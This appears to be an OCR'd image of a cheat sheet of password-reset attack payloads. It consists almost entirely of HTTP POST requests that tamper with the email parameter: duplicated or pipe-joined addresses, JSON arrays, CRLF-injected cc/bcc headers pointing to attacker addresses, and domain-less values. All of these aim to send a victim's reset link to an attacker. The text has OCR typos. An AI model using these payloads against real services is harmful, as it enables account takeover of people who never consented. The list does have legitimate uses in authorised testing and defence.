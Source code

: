 ```jsx
[...]
email=victim@email.com|email=attacker@email.com

 
 POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"

POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"

POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"

POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}

* send password in request

POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})

* And Aother
```

1. No domain in value of the paramter

```jsx
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

1. No TLD in value of the parameter

```jsx
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

1. Using carbon copy

```jsx
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```
